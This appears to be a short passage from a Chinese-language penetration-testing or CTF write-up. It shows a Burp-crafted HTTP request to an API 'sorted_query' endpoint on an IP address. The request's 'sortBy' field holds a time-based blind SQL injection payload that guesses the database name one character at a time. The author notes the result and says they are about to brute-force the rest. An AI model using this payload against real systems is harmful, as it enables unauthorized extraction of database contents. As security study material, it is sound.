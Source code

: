 ```



POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 95

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),1)","order":"asc"}

第一个字符是119，也就是w

这里服务器炸了，卡了好久

```

# 现在是00点43分，夜深人静，没人爆破，我来爆破，开始快车道模式



![image-20250904004236479](images/image-20250904004236479.png)

![image-20250904004502359](images/image-20250904004502359.png)

